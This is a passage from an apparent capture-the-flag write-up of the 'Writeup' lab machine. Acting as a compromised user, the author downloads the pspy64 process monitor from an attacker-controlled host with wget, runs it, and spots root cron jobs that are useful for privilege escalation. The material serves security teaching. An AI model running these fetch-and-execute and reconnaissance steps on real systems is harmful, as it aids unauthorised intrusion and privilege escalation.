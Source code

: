 Using a program called [pspy](https://github.com/DominicBreuker/pspy) we can watch as processes execute on the machine - even processes running from root.

``` bash
jkr@writeup:/tmp$ wget http://10.10.16.205:9090/pspy64
--2021-07-24 17:44:03--  http://10.10.16.205:9090/pspy64
Connecting to 10.10.16.205:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                             100%[================================================================>]   2.94M  3.93MB/s    in 0.7s    

2021-07-24 17:44:04 (3.93 MB/s) - ‘pspy64’ saved [3078592/3078592]

jkr@writeup:/tmp$ chmod +x pspy64 
jkr@writeup:/tmp$ ./pspy64 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
<--  OMIT FOR BREVITY -->
2021/07/24 17:44:16 CMD: UID=0    PID=105    | 
2021/07/24 17:44:16 CMD: UID=0    PID=10     | 
2021/07/24 17:44:16 CMD: UID=0    PID=1      | init [2]   
2021/07/24 17:45:01 CMD: UID=0    PID=2283   | /usr/sbin/CRON 
2021/07/24 17:45:01 CMD: UID=0    PID=2284   | /usr/sbin/CRON 
2021/07/24 17:45:01 CMD: UID=0    PID=2285   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2021/07/24 17:46:01 CMD: UID=0    PID=2286   | /usr/sbin/CRON 
2021/07/24 17:46:01 CMD: UID=0    PID=2287   | /usr/sbin/CRON 
2021/07/24 17:46:01 CMD: UID=0    PID=2288   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2021/07/24 17:47:01 CMD: UID=0    PID=2289   | /usr/sbin/CRON 
2021/07/24 17:47:01 CMD: UID=0    PID=2290   | /usr/sbin/CRON 
2021/07/24 17:47:01 CMD: UID=0    PID=2291   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 

```
